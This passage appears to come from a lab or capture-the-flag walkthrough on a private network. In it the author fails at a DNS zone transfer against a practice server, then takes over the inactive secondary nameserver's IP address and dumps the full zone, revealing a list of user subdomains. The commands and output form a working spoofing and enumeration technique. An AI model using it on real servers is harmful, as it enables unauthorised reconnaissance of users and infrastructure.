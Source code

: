 ```
;; SERVER: 192.168.1.88#53(192.168.1.88)
;; WHEN: Sun Apr  8 18:07:45 2012
;; MSG SIZE  rcvd: 113
```

I found the IP address of the secondary nameserver, 192.168.1.89. However this machine was not currently running on the network. It occurred to me that the registration page notes that users who have a ZincFTP account have a webpage in the form of username.zincftp.com I thought that if I could do a zone transfer, then I might be able to get a list of those users:

```
# dig zincftp.com @192.168.1.88 axfr
 
; <<>> DiG 9.7.0-P1 <<>> zincftp.com @192.168.1.88 axfr
;; global options: +cmd
; Transfer failed.
```

No luck there, but then again, you can't really do a zone tranfer against any site. However, since the secondary nameserver was inactive, I decided to try setting my machine's IP to the secondary nameserver's IP and trying a zone transfer again. Primary and secondary nameservers usually trust each other to do a zone transfer, so it might work:

```
# ifconfig eth0 down
# ifconfig eth0 192.168.1.89 up
# dig @192.168.1.88 zincftp.com axfr
 
; <<>> DiG 9.7.0-P1 <<>> @192.168.1.88 zincftp.com axfr
; (1 server found)
;; global options: +cmd
zincftp.com.  38400 IN SOA ns1.zincftp.com. ns2.zincftp.com. 2006071801 28800 3600 604800 38400
zincftp.com.  38400 IN NS ns1.zincftp.com.
zincftp.com.  38400 IN NS ns2.zincftp.com.
zincftp.com.  38400 IN MX 10 mta.zincftp.com.
zincftp.com.  38400 IN A 192.168.1.88
ahuxley.zincftp.com. 38400 IN A 192.168.1.88
amckinley.zincftp.com. 38400 IN A 192.168.1.88
bzimmerman.zincftp.com. 38400 IN A 192.168.1.88
cbergey.zincftp.com. 38400 IN A 192.168.1.88
cfinnerly.zincftp.com. 38400 IN A 192.168.1.88
cjalong.zincftp.com. 38400 IN A 192.168.1.88
cmahong.zincftp.com. 38400 IN A 192.168.1.88
cmanson.zincftp.com. 38400 IN A 192.168.1.88
ddonnovan.zincftp.com. 38400 IN A 192.168.1.88
ddypsky.zincftp.com. 38400 IN A 192.168.1.88
dev.zincftp.com. 38400 IN A 192.168.1.88
dhammond.zincftp.com. 38400 IN A 192.168.1.88
dmoran.zincftp.com. 38400 IN A 192.168.1.88
dsummers.zincftp.com. 38400 IN A 192.168.1.88
evorhees.zincftp.com. 38400 IN A 192.168.1.88
gwelch.zincftp.com. 38400 IN A 192.168.1.88
hmcknight.zincftp.com. 38400 IN A 192.168.1.88
jgacy.zincftp.com. 38400 IN A 192.168.1.88
jsmith.zincftp.com. 38400 IN A 192.168.1.88
jstreet.zincftp.com. 38400 IN A 192.168.1.88
kmccallum.zincftp.com. 38400 IN A 192.168.1.88
lnickerbacher.zincftp.com. 38400 IN A 192.168.1.88
lsanderson.zincftp.com. 38400 IN A 192.168.1.88
lwestre.zincftp.com. 38400 IN A 192.168.1.88
mta.zincftp.com. 38400 IN A 10.0.192.48
ncobol.zincftp.com. 38400 IN A 192.168.1.88
ns1.zincftp.com. 38400 IN A 192.168.1.88
ns2.zincftp.com. 38400 IN A 192.168.1.89
rcropper.zincftp.com. 38400 IN A 192.168.1.88
```
